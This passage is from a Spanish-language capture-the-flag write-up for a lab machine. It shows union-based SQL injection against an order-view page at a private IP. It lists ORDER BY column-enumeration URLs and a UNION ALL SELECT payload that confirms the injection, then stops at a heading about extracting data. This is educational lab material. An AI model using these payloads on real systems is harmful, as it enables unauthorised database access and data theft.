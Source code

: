 ### Viajando por el contenido (?)

Intentemos ver cuantas columnas tiene la tabla actual:

```bash
# Le colocamos 100 para buscar un posible error o 
  cambio en la respuesta.

http://192.168.100.10/admin/view_order.php?id=1 ORDER BY 100-- -

# Le colocamos 1, ya que si o si sabemos que existe 1 columna,
  así que notaríamos un cambio con respecto a la respuesta 
  anterior.

http://192.168.100.10/admin/view_order.php?id=1 ORDER BY 1-- -
```

Obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/luz/Luz_page80_viewOrderPHP_validationSQLI_order100.png" style="width: 70%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/luz/Luz_page80_viewOrderPHP_validationSQLI_order1.png" style="width: 70%;"/>

Perfecto, pues solo nos queda ir probando de 1 en 1 a ver donde vuelve a cambiar la respuesta, cuando pase eso, sabemos que el numero anterior es el total de columnas (campos) que hay en la tabla...

```bash
http://192.168.100.10/admin/view_order.php?id=1 ORDER BY 1-- -
http://192.168.100.10/admin/view_order.php?id=1 ORDER BY 2-- -
http://192.168.100.10/admin/view_order.php?id=1 ORDER BY 3-- -
...
http://192.168.100.10/admin/view_order.php?id=1 ORDER BY 11-- -
```

La petición con el `ORDER 12` ya nos da el resultado del `ORDER 100`, así que existen 11 columnas 🥳 y existe la posibilidad de una **SQLi Content-Based**.

Lo siguiente es unir esos 11 campos para validar cual de ellos nos puede llegar a servir como punto de entrada a extraer info:

```bash
http://192.168.100.10/admin/view_order.php?id=1 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- -
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/luz/Luz_page80_viewOrderPHP_validationSQLI_unionALLselectNUMS.png" style="width: 70%;"/>

Si abrimos bien los ojos notamos en la respuesta un **7** ahí medio sapito, PPUUUUEEEEESSSS, si modificamos el valor del campo **7** en nuestro payload por algo más detallado, notamooooooooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/luz/Luz_page80_viewOrderPHP_validationSQLI_unionALLselect_CONFIRMED.png" style="width: 100%;"/>

QUE TENEMOS UNA INYECCIÓN SQL BASADA EN CONTENIDOOOOOOOOOOOOOOOO!! Y podemos hacer todo más rápido (:

### Robamos cositas mediante una SQLi Content-Based
